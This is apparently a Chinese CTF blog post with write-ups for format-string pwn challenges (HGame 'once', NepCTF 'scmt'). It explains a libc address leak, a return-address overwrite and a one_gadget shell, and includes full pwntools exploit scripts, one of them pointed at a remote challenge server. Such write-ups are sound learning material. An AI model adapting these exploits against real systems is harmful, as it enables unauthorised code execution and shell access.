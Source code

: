 ```yaml
---
title: Fmtstr
categories: 
    - Stack
    - Fmtstr
---
```

# Fmtstr
<!--more-->
## HGame week1

### once


![20210306191440](https://raw.githubusercontent.com/YTrick/image/branch/image/20210306191440.png)


IDA看，明显是格式化字符串漏洞，显然是⽤来 leak （泄露地址） 的了，泄露出 libc 的地址，就能计算出 onegadget 的地址了，最后覆盖返回地址，使得返回到 onegadget 就能拿到 shell

但是这不能⼀次就完成，要分两步，第⼀次利⽤要先 leak，覆盖返回地址，返回到漏洞开始的地⽅（这里就是程序的 vuln 函数），第⼆次就覆盖返回地址成 onegadget 即可

在第⼀步呢，有⼀个关键点，地址随机化的最低 12 bit，是不会变的，所以只要覆盖最低的 1 个字节，就可以返回到其它相近的地⽅，⽐如 vuln 函数的开头，


我用[tag]的方法找字符串的偏移老找不准：


![20210306191649](https://raw.githubusercontent.com/YTrick/image/branch/image/20210306191649.png)


如果想要找到栈中一些函数的地址来计算偏移的时候，不知道break在printf处后，栈中第一个值到底是第几个参数，所以我用了IDA去找。

test_exp:

```py
from pwn import *
context.terminal = ['gnome-terminal', '-x', 'zsh', '-c']
context.log_level = 'debug'

p = remote('127.0.0.1',12345)

payload = 'AAAA'  + '%1$p' +'%2$p' +  '%3$p' +'%4$p' +  '%5$p'    + '%6$p'  + '%13$p'  + '%14$p'

p.sendafter('It is your turn: ',payload)
```

![20210307140046](https://raw.githubusercontent.com/YTrick/image/branch/image/20210307140046.png)



![20210307140246](https://raw.githubusercontent.com/YTrick/image/branch/image/20210307140246.png)


可以看到第13个参数是一个 libc_start_main 的地址，利用这个地址与题目给的 libc 文件就可以计算出 onegadget 

最后的 getshell 中 +0x4f3d5 用 one_gadget [libcname] 指令

![20210308133927](https://raw.githubusercontent.com/YTrick/image/branch/image/20210308133927.png)

exp：

```py
from pwn import *
context.terminal = ['gnome-terminal', '-x', 'zsh', '-c']
context.log_level = 'info'

p = remote('182.92.108.71',30107)
#p = process('./once')
#p = remote('127.0.0.1',12345)

libc = ELF('./libc-2.27.so', checksec=False)
binary = ELF('./once', checksec=False)
payload = '%13$p\n'
payload = payload.ljust(0x28,'a')
payload +=   '\xD3' 
p.sendafter('It is your turn: ',payload)

libc_addr = p.recvuntil('\n','True')
libc_addr = int(libc_addr,16)
libc_base = libc_addr  - libc.symbols['__libc_start_main'] - 0xe7
print('libc_base',hex(libc_base))

getshell = 'a' *0x28
getshell += p64(libc_base + 0x4f3d5)

p.recvuntil('It is your turn: ')
p.sendline(getshell)

p.interactive()
```




## NepCTF （未解决）

### scmt

2021.3.25

找不到点

官方writeup
```py
from pwn import *

context.log_level = 'debug'

p= process("./scmt")

#p=remote("node2.hackingfor.fun",39232)

#p = remote('127.0.0.1',12345)

payload = '%*8$p%7$n'

p.sendlineafter('tell me your name:',payload)

p.sendafter(' number:','-')

p.interactive()
```




